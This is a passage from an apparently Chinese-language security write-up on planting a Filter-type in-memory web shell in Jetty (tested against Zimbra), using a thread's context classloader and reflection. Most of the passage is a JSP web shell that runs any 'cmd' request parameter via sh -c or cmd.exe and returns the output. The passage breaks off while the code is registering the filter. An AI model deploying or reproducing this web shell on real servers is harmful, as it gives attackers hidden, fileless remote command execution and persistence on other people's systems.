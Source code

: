 [参考资料1](https://github.com/feihong-cs/memShell/blob/master/src/main/java/com/memshell/jetty/FilterBasedWithoutRequest.java)是通过JmxMBeanServer获得webappclassloaer，进而通过反射调用相关方法添加一个Filter

[参考资料2](https://blog.csdn.net/xdeclearn/article/details/125969653)是通过Thread获得webappclassloaer，进而通过反射调用相关方法添加Servlet型内存马的方法

我在实际测试过程中，发现通过JmxMBeanServer获得webappclassloaer的方法不够通用，尤其是无法在Zimbra环境下使用

因此，最终改为使用Thread获得webappclassloaer，进而通过反射调用相关方法添加Filter型内存马

## 0x04 实现代码
---

### 1.添加Filter

Jetty下可用的完整代码如下：

```
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.util.Scanner"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.io.*"%>

<%
    String filterName = "myFilter";
    String urlPattern = "/filter";
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner( in ).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                servletResponse.getWriter().flush();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {
        }
    };

    Method threadMethod = Class.forName("java.lang.Thread").getDeclaredMethod("getThreads");
    threadMethod.setAccessible(true);
    Thread[] threads = (Thread[]) threadMethod.invoke(null);
    ClassLoader threadClassLoader = null;

    for (Thread thread:threads)
    {
        threadClassLoader = thread.getContextClassLoader();
```